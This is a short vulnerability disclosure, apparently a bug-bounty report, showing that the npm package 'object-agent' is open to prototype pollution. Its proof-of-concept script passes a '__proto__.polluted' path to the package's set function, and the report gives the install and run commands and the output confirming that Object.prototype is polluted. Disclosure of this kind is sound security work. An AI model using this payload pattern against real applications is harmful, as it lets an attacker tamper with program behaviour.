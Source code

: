 # Description

`object-agent` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
import { set } from 'object-agent';
var obj = {}
console.log("Before : " + {}.polluted);
set(obj, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i object-agent # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
